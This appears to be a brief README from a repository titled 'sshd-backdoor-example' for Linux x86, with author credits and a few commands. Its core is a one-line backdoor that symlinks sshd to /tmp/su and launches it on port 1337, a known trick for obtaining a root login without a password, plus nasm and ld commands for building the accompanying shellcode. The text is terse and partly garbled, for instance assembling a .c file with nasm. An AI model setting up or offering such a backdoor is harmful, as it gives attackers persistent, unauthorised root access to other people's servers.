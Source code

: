 # sshd-backdoor-example- linux-x86
SSH Backdoor example !
@by lizard2h;
@thanks to k3nsh1n for "instiga" ;)

## Compile ASM
strace -e execve,symlink ./a.out 
ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=1337;

OR $nasm -f elf shellcode.c and ld -s -o shellcode shellcode.o

